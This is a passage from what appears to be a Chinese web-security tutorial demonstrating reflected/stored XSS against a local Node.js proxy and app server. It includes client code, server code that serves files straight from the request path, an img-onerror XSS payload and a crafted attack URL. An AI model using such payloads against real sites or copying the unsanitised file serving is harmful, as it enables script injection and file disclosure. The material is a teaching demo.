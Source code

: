 ```html
    })

    // 点击时改变URL，加上查询参数，触发一次导航事件
    function handleClick() {
        let param = url.slice(url.indexOf("=") + 1)
        if(param != location.href)
            // 多次点击
            location.href = url.replace(param, input.value)
        else
            // 第一次点击
            location.href += "/api/input?value=" + input.value
    }
</script>
```
#### 代理服务器代码
```javascript
let fs = require("fs").promises
let proxy = require("http-proxy").createProxyServer({})

require("http").createServer(function(req, res) {
    if(req.url.slice(0, 4) === "/api")
        proxy.web(req, res, {
            target: "http://localhost:4000"
        })
    else
        fs.readFile("." + req.url.slice(0, req.url.indexOf("html") + 4)).then(data => {
            res.writeHead(200, {
                "Content-Type": "text/html"
            })
            res.write(data)
            res.end()
        })
}).listen(3000)
```
#### 应用服务器代码
```javascript
require("http").createServer((req, res) => {
    if(req.url.slice(0, 10) === "/api/input") {
        let search = req.url.slice(17)
        // 这里省略了保存审核等操作，实际应用时可能会把这个评论内容保存下来
        res.write("ok")
        res.end()
    }
}).listen(4000)
```
#### 攻击脚本
```html
<img src="x" onerror="alert('您正在遭受XSS攻击')" style="visibility: hidden;">
// 将攻击脚本作为评论发布后获取URL，此时得到一个制作完成的攻击URL
// http://localhost:3000/A.html/api/input?value=%3Cimg%20src=%22x%22%20onerror=%22alert(%27%E6%82%A8%E6%AD%A3%E5%9C%A8%E9%81%AD%E5%8F%97XSS%E6%94%BB%E5%87%BB%27)%22%20style=%22visibility:%20hidden;%22%3E
// 注：评论页面在这里命名是A.html，你也可以选择其它名称
```
